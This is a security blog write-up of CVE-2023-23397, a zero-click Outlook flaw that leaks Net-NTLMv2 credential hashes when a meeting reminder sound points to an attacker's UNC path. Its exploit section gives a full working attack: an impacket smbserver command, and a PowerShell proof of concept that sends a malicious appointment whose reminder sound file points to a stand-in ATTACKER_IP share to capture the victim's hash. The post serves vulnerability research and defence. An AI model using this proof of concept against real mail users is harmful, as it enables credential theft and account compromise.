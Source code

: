 ```yaml
---
layout: post
title: CVE-2023-23397 - Zero Click Net-NTLMv2 Credential Hash Leak on Outlook Client
categories: [security, cve, vulnerability]
tags: [security, cve, vulnerability, windows]
description: A comprehensive writeup that helps to understand Zero Click Net-NTLMv2 Credential Hash on Outlook Client.
---
```


### Quick Overview

Microsoft announced patch for [CVE-2023-23397](https://nvd.nist.gov/vuln/detail/CVE-2023-23397) which generally goes out usually on tuesday (Mar 14, 2023). This particular vulnerability caught my eyes due to the fact that I actively work on `Active Directory` based HackTheBox machines and this one is something similar to `Android Application Exploits` where attacker passes random url to `activities` or `services` and the outbound network connection often contains sensitive tokens attached to it. 

IIRC, I reported a similar vulnerability in 2020 which completely leaks encrypted sandbox local files including e-mail, tasks in the ProtonMail Android Client [reference](https://proton.me/blog/protonmail-security-contributors) However, it requires user interaction in the victim side of Android app.

### CVE Summary

> TLDR: When the Malicious scheduled appointment email sent by attacker lands in the Victims Outlook Client, the client leaks the Net-NTLMv2 Credential Hash to the Attacker controlled SMB Server with Zero Interaction on Victim side

Outlook Windows desktop client feature allows to schedule appointment, send emails from the desktop. However, Appointment Scheduling allows `sender` to set a `custom reminder sound`. The surprise fact here is that this custom reminder sound file can be loaded from shared network (UNC Path), for example, \\ATTACKER_IP\Share\Sounds\reminder.wav which specifically uses SMB v2 (Probably) protocol. So, When the sender aka `attacker` sets the Outlook Appointment Reminder sound to `UNC path` (Universal naming convention path) the receiver Outlook client accepts the meeting and adds to the Calendar. When the Appointment duration approaches and Outlook starts reminding the receiver or `victim` the Outbound call is made from the victim machine to Attacker controlled UNC Path to load the custom reminder sound (say ringtone). The plot twist is this SMB Negotiation between the `victim outlook client` and attacker controlled SMB server actually leaks the victims Net-NTLMv2 Credential hash to the attacker.

![CVE-2023-23397-Sequential-diagram-to-understand-exploit](/assets/media/CVE-2023-23397-sequential-diagram.png)

### Quick Note on Net-NTLMv2 Credentials

If you're no stranger to Offensive security, You would definitely value the NTLMv2 Token. For others, check out quick overview on [NTLM Authentication]((https://admiralgaust.github.io/OSCP-notes/info/active-directory-theory.html)) used within Active Directory

### Exploit Strategy

1. Host a SMB Server with the help of impacket tools

   ```shell
   > attacker@kali $ smbserver.py Share sub_directory -smb2support
   ```

   ![CVE-2023-23397-Demo-Screenshot-1](/assets/media/htb-cve-2023-23397-demo-screenshot-1.png)

2. Create Outlook Appointment from Powershell (Attacker owned Windows Machine). You could potentially utilize below script to generate malcious appointment natively from powershell. [Source](https://github.com/ka7ana/CVE-2023-23397)

   ```powershell
   # PoC script for CVE-2023-23397, ported to PowerShell
   # Credits go to Dominic Chell at MDSec
   # See: https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/

   $ol = New-Object -ComObject Outlook.Application
   $meeting = $ol.CreateItem('olAppointmentItem')
   $meeting.Subject = 'Time for a malicious meeting'
   $meeting.Body = 'Simple CVE-2023-23397 test script'
   $meeting.Location = 'Virtual'
   $meeting.ReminderSet = $True
   $meeting.Importance = 1
   $meeting.MeetingStatus = [Microsoft.Office.Interop.Outlook.OlMeetingStatus]::olMeeting
   $meeting.Recipients.Add('victim@domain.com') 

   $meeting.ReminderMinutesBeforeStart = 15
   $meeting.Start = [datetime]::Now.AddMinutes(16)
   $meeting.Duration = 30
   $meeting.ReminderPlaySound = $True
   $meeting.ReminderOverrideDefault = $True

   $meeting.ReminderSoundFile = "\\ATTACKER_IP\Share\Sounds\sample.wav" 

   $meeting.Save()
   $meeting.Send()
   ```

   ![CVE-2023-23397-Demo-Screenshot-2-Powershell](/assets/media/htb-cve-2023-23397-demo-screenshot-2-windows-powershell.png)

3. When the `Victim Outlook` Parses the appointment and reminds about the appointment, SMBv2 Handshare Negotiation is initiated between `Victim Outlook Process` and Attackers SMB Server
   
   ![CVE-2023-23397-Demo-Screenshot-4-exploit-desktop-client](/assets/media/htb-cve-2023-23397-outlook-client-demo-leak-ntlm-hash.png)
   ![CVE-2023-23397-Demo-Screenshot-3-exploit-leak](/assets/media/htb-cve-2023-23397-demo-screenshot-2-exploit.png)


### Source and Reference:

1. [Microsoft Outlook Elevation of Privilege Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-23397)
2. [OutLook NTLM Leak Demo](https://tryhackme.com/room/outlookntlmleak)


### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
